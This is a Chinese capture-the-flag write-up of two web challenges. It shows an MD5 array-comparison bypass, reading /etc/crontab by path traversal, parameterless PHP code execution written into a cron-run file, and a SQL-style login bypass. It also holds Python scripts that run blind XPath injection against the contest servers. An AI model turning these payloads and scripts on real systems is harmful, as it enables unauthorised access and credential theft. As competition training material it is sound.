### by:gyy

抢了到人生第一次大一点点比赛的一血




---

## WEB
### web1

题目链接：http://121.196.32.184:12001/

打开发现`nonono ，once again！`

查看源码

```php
<!--
if ($_POST['a'] !== $_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
echo ("You need the file is xxx");
} else {
echo ("nonono ，once again！");
}
flag不在/flag中哦，你应该找找奇奇怪怪的文件名
-->

```

`$_POST['a'] !== $_POST['b'] && md5($_POST['a']) === md5($_POST['b'])`
老MD5强类型比较，传入两个数组，数组的值不相等，造成MD5加密时报错产生NULL=NULL的情况，绕过比较。
即`a[]=1&b[]=a`



访问./3b8cf4731c36d20776c76e20f9c774c7.php

```php
@$data=$_POST['data'];
$file=$_POST['file'];
if($file!="/xxx")
die("你需要知道写入的文件名！！！！！我猜你知道到这个文件叫什么,记得加上绝对路径");
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $data)) {
echo "great!!!!你需要看看源码";
file_put_contents($file,"");
}

你需要知道写入的文件名！！！！！我猜你知道到这个文件叫什么,记得加上绝对路径
```

第一反应猜文件，爆破半天出不来
然后去扫目录，发现了/etc等目录，后来比赛方给了hint，`/etc/crontab`

``./../../../etc/crontab`访问得

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
0 17 2 8 * /bin/php /very_g00d_Y0u_got_it.php

```
很明显`/very_g00d_Y0u_got_it.php`

访问得啥都没有，因为我们没写东西进去。
然后回上一步分析源码，
`';' === preg_replace('/[^\W]+\((?R)?\)/', '', $data)`
从data参数中匹配字母、数字、下划线，其实就是'\w+'，然后在匹配一个循环的'()'，将匹配的替换为NULL，判断剩下的是否只有';'。

很明显无参数RCE，编写脚本，首先`print_r(getcwd());`



访问`/very_g00d_Y0u_got_it.php`得`/`，说明当前工作目录为根目录



然后`print_r(scandir(getcwd()));`扫一下目录

```
Array
(
    [0] => .
    [1] => ..
    [2] => .dockerenv
    [3] => 3b8cf4731c36d20776c76e20f9c774c7.php
    [4] => Zmw0Z2dnZ2dnZ2dnZ2dnCg
    [5] => bin
    [6] => boot
    [7] => dev
    [8] => etc
    [9] => flag
    [10] => home
    [11] => index.php
    [12] => lib
    [13] => lib64
    [14] => media
    [15] => mnt
    [16] => opt
    [17] => proc
    [18] => root
    [19] => run
    [20] => sbin
    [21] => srv
    [22] => start.sh
    [23] => sys
    [24] => tmp
    [25] => usr
    [26] => var
    [27] => very_g00d_Y0u_got_it.php
)
```


发现异常文件`Zmw0Z2dnZ2dnZ2dnZ2dnCg`，访问后得到了flag


最后base64一下发现`Zmw0Z2dnZ2dnZ2dnZ2dnCg`就是`fl4gggggggggggg`


Payload：
```python
import requests

url = "http://121.196.32.184:12001"

url1 = url+"/3b8cf4731c36d20776c76e20f9c774c7.php"

data = {
    "data" : "print_r(scandir(getcwd()));",
    "file" : "/very_g00d_Y0u_got_it.php"
}

requests.post(url1 , data=data)

url2 = url+"/very_g00d_Y0u_got_it.php"

response = requests.get(url2).content.decode('utf-8')

print(response)

```

### injection

题目链接：http://114.55.165.246:8082/

题目提示为注入，进入界面为登陆框，第一时间想到SQL注入


输admin登陆一下


是GET传参，sqlmap跑一下没有结果，万能密码`1'or 1=1`试一下成功


怀疑是XXE，尝试了一会发现不是。
后来想到XPath注入(傻了，报错里有...)

XPath基础查询语句`//users/user[loginID/text()=’abc’ and password/text()=’test123’]`

这是一个XPath查询语句，获取loginID为abc的所有user数据，用户需要提交正确的loginID和password才能返回结果。如果黑客在 loginID 字段中输入：' or 1=1 并在 password 中输入：' or 1=1   就能绕过校验，成功获取所有user数据

`//users/user[LoginID/text()=''or 1=1 and password/text()=''or 1=1]`

具体不做阐述

---

**尝试XPath盲注**

一般步骤如下:

1.判断根下节点数:

`127.0.0.1/xpath/index.php?name=1' or count(/*)=1 or '1'='1&pwd=fake`

result: 1

2.猜解第一级节点:

`127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),1,1)='r' or '1'='1&pwd=fake`

`127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),2,1)='o' or '1'='1&pwd=fake`

...

result: root

3.判断root的下一级节点数:

`127.0.0.1/xpath/index.php?name=1' or count(/root/*)=2 or '1'='1&pwd=fake`

result: 2

4.猜解root的下一级节点:

`127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=1]),1,1)='u' or '1'='1&pwd=fake`

`127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=2]),1,1)='s' or '1'='1&pwd=fake`

result: users,secret

重复上述步骤,直到猜解出所有节点.最后来猜解节点中的数据或属性值.

猜解id为1的user节点下的username值,

`127.0.0.1/xpath/index.php?name=1' or substring(/root/users/user[id=1]/username,1,1)='a' or '1'='1&pwd=fake`

...

result: admin

---

写脚本开始跑
首先判断根下节点数
因为是GET传参，直接访问`http://114.55.165.246:8082/?username=1' or count(/*)=1 or '1'='1&password=1&submit=登录`


这个结果应该是return 1，即根下有一个节点

如果换成`...username=1' or count(/*)=2 or '1'='1...`则会返回登录失败，即结果为return 0.

继续猜测第一级节点，用脚本跑
```python
# -*- coding: utf-8 -*-
import requests
import re

baseurl = "http://114.55.165.246:8082/?username="

s = "qwertyuiopasdfghjklzxcvbnm1234567890"

result = []

for j in range(1,10):
    flag = 0
    for i in range(0, 36):
        payload = "1' or substring(name(/!XXXX!*[position()=1]),"
        payload += str(j)
        payload += ",1)='"
        payload += s[i]
        payload += "' or '1'='1"
        end = "&password=admin&submit=登录"

        url = baseurl + payload + end

        res = requests.get(url).content.decode("utf-8").split("</html>")[1]
        if (re.search("you",res)):
            result.append(s[i])
            flag=1
            print(s[i] + "--------->" + res.replace("\r\n" , ""))
            break
    if flag == 0:
        break

print(result)

# !####! 换成目录即可

```
结果爆出第一级为root


同理，修改第13行为`"1' or substring(name(/root/*[position()=1]),"`
继续爆






最后爆出结构为/root/users/user[id]


开始猜测id为1的user节点下username值，其实能猜到的admin

payload：
```python
# -*- coding: utf-8 -*-
import requests
import re

baseurl = "http://114.55.165.246:8082/?username="

s = "qwertyuiopasdfghjklzxcvbnm1234567890"

result = []

for j in range(1,100):
    flag=0
    for i in range(0, 36):
        payload = "1' or substring(/root/users/user[id=1]/username,"
        payload += str(j)
        payload += ",1)='"
        payload += s[i]
        payload += "' or '1'='1"
        end = "&password=admin&submit=登录"

        url = baseurl + payload + end

        res = requests.get(url).content.decode("utf-8").split("</html>")[1]
        if (re.search("you",res)):
            result.append(s[i])
            flag = 1
            print("第"+str(j)+"位----------->"+s[i])
            break
    if flag==0:
        break
print(result)

# 爆密码就把username改成password

```
爆username

果然是admin

继续爆password



结果password=339db714647a1d66b85cd08442287841

登录一下，获得flag
